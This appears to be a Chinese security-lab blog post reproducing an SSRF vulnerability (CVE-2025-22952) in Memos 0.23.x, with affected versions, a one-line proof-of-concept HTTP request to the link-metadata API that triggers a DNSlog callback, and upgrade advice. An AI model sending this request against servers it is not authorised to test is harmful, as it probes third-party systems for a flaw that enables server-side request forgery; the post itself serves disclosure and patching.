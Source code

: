 #  【成功复现】Elestio Memos服务器端请求伪造漏洞(CVE-2025-22952)【SSRF】   
弥天安全实验室  弥天安全实验室   2025-05-13 12:13  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Memos是Memos开源的一个具有知识管理和社交功能的开源自托管备忘录中心。Memos 0.23.0版本存在安全漏洞，该漏洞源于用户提供URL验证不足，可能导致SSRF攻击。0x02影响版本  
  
   
0.23.0<=Memos<0.24.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAwkc5WiaFIGHLCoOLxYhZnTgJxxlrfdfQfdvPMw4eUN3pK3d1kiashWVbuVn6rZWZlOicEApictmGHOA/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAwkc5WiaFIGHLCoOLxYhZnTLCqp5WwZ5A0MRicUx3tAdYmp2ud1Y9oMXZuSpXAPO734Wf8WnhoZfdA/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现GET /api/v1/markdown/link:metadata?link=http://siebbnaoty.iyhc.eu.org HTTP/1.1Host: 127.0.0.1      通过DNSlog回显判断漏洞存在。3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：可以通过检查Memos的版本来确定是否受影响，使用命令`memos --version`查看当前版本建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://github.com/usememos/memos/releases/tag/v0.24.0弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
